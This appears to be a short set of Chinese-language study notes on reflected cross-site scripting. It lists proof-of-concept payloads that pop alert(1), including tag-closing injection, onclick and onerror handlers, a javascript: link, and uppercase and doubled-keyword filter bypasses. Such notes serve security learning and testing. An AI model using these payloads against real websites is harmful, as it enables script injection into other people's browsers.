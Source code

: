 # XSS

## 反射型

<script>alert(1)</script>

闭合标签

111”><script>alert(1)</script><

使用onclick,这里使用了单引号闭合。过滤了双引号，但未过滤单引号

111' onclick='alert(1)'"

使用onerror

<img src='1' onerror='alert(1)'>



伪协议

111”><a href="javascript:alert(1)"><

大写绕过

111”><SCRIPT>alert(1)</SCRIPT><

双写绕过

111"><scriscriptpt>alert(1)</scriscriptpt><"

将代码进行unicode编码绕过

 

